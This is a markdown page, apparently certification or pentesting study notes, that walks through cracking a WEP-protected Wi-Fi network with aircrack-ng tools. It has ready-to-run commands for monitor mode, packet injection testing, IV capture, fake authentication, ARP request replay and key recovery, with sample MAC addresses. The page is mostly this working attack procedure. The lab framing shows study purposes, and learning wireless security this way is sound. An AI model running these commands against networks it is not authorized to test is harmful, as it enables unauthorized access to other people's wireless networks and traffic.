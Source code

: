 ## Cracking WEP

## Perform the following steps prior to step 1, if you're wireless card is giving you issues.

* Stop network manager
````
service network-manager stop
````

* When putting a card into monitor mode, it will automatically check for interfering processes. It can also be done manually by running the following command:
````
airmon-ng check
````

* Kill interferring processes
````
airmon-ng check kill **OR** airmon-ng check kill-all
````

* If started already...disable Monitor Mode
````
airmon-ng stop wlan0mo
````

* Restart Network Manager(s)
````
service network-manager start
````

**1) List All Available Wireless Interace Cards**

* You can do this with two commands: iwconfig or airmon-ng

![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/list_interfaces.png)

**2) Enable monitor mode on the interace found in step 1**

* Identify the channel of the target AP, 
````
airmon-ng start wlan0
sudo airodump-ng wlan0mon <- Identify AP channel here
sudo airodump-ng stop wlan0mon
sudo airmon-ng start wlan0 3
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/monitor_mode_channel.png.png)

**3) Identify the channel your WEP network is operating on**

* execute iwconfig or airmon-ng to get your wireless interface
* use either BSSID or ESSID.
* The channel number will be listed under the "CH" column.
````
airodump-ng wlan0mon
````
![](https://github.com/azul-007/Pentesting/blob/master/Wireless/images/identify_channel.png)

* Take not of the the MAC, channel and network name of the target AP.
* Test wireless device packet injection.
* If you receive "Injection is working! proceed, else, ensure you're using a compatible wireless card.

**4) Test Packet Injection**
````
aireplay-ng -9 -e <network name> -a <target MAC> <interface>
````

**5) Capture IVs from the AP**
````
airodump-ng -c 3 --bssid D8:0D:17:81:3F:CC -w target_iphone wlan0mon
````

![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/capture_iv.png)

**6) Initiate Fake Authentication**
* Do this step concurrently with the step 5 to capture all the data you have replayed.
````
sudo aireplay-ng -1 0 -e lab -a D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/fake_authentication.png)

**7) Start aireplay in ARP request replay mode**
* When the program identifies an ARP request, it will immediately strat to inject it.
````
aireplay-ng -3 -b D8:0D:17:81:3F:CC -h 84:AD:8D:EC:7E:8D wlan0mon
````
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch8_Wireless_and_RF_Attacks/images/injection.png)


**8) Crack the WEP key**
````
aircrack-ng -b D8:0D:17:81:3F:CC replay_arp-0709-181038.cap
````
